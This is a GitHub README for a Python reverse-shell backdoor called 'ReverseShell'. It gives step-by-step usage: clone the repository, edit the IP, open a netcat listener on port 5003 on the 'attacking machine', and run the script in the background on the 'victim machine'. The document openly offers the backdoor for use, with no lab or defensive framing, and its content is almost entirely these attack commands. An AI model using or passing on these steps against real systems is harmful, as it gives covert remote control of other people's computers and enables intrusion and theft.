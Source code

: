 ## ReverseShell | written in python3

- A python backdoor/reverseshell.
- You need to change the ip for your own usage.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Now you need to change the ip in the script!
After saving your custom backdoor you can test it:

- On the attacking machine:
```
nc -lnvp 5003
```
- On the vivtim machine:
```
python3 reverseshell.py &
```

